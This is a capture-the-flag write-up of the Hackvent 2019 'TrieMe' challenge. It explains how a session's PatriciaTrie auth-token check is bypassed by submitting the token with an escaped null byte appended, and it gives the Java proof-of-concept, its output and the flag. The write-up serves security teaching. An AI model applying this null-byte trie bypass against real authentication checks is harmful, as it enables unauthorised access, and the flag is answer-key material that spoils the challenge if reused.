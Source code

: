 ## HV19.13 TrieMe

Switzerland's national security is at risk. As you try to infiltrate a secret spy facility to save the nation you stumble upon an interesting looking login portal.

Can you break it and retrieve the critical information?

### Resources

- Facility: http://whale.hacking-lab.com:8888/trieme/
- [HV19.13-NotesBean.java.zip](./34913db9-fd2a-43c8-b563-55a1d10ee4cb.zip)

### Solution

For this challenge, we get access to a webpage with a single input field, and some [Java Code](./34913db9-fd2a-43c8-b563-55a1d10ee4cb/NotesBean.java). The code represents a session scoped Java Bean, which probably handles all the incoming requests.  We see that for each client, the app creates a new session with a [PatriciaTrie](https://commons.apache.org/proper/commons-collections/apidocs/org/apache/commons/collections4/trie/PatriciaTrie.html). This special sort of tree stores the data in inner leaves, and not only in leaves. Therefore, it requires less memory to store the same data. Morevover, the app automatically stores a security token (`auth_token_4835989`) in the trie. 

When submitting a request, we assume that our input gets passed to the `addTrie` method, which adds it to the trie in the following way: 

```java
public void setTrie(String note) {
	trie.put(unescapeJava(note), 0);
}
```

Then, the application checks if the current session has admin permission, which means that the trie does not contain a security token. If that is the case, it returns the flag. However, at a first glance this seems to be almost impossible, because whenever we make a new request, the security token gets automatically inserted into the trie. Our only way to interact with the trie is by inserting new items. After digging through the Wikipedia pages and the Java-Documentation for quite a while, I learned that it could be possibly to trick the `containsKey` check by inserting items which are almost equal to the security token, but get matched before. Also, the `unescapeJava` call in the `setTrie` method looks very suspicious. Probably, we need to add some control characters to perform this task.

To simplifiy my testing procedure, I created a small Java-Program which mimics the server-side behavior. After some tries, I discovered that appending a null-byte to the auth token does the trick:  `auth_token_4835989\0`

The [final program](./Day13/src/at/hackvent19/Main.java) to verify this behavior looks as follows: 

```java
package at.hackvent19;

import static org.apache.commons.lang3.StringEscapeUtils.unescapeJava;

import org.apache.commons.collections4.trie.PatriciaTrie;

public class Main {
	private static final String securitytoken = "auth_token_4835989";

	@SuppressWarnings("deprecation")
	public static void main(String[] args) {
		PatriciaTrie<Integer> trie = new PatriciaTrie<Integer>();
		trie.put(securitytoken, 0);
		String input = "auth_token_483598\u0039";
		input = "auth_token_4835989\0";

		trie.put(unescapeJava(input), 0);

		System.out.println(unescapeJava(input));
		System.out.println(unescapeJava(input).equals(securitytoken));
		
		System.out.println("Contains input: " + trie.containsKey(input));
		System.out.println("Contains escaped input: " + trie.containsKey(unescapeJava(input)));
		System.out.println("Contains token: " + trie.containsKey(securitytoken));
	}

}
```

```
auth_token_4835989
false
Contains input: true
Contains escaped input: true
Contains token: false
```

![](./flag.jpg)

**Flag:** HV19{get_th3_chocolateZ}
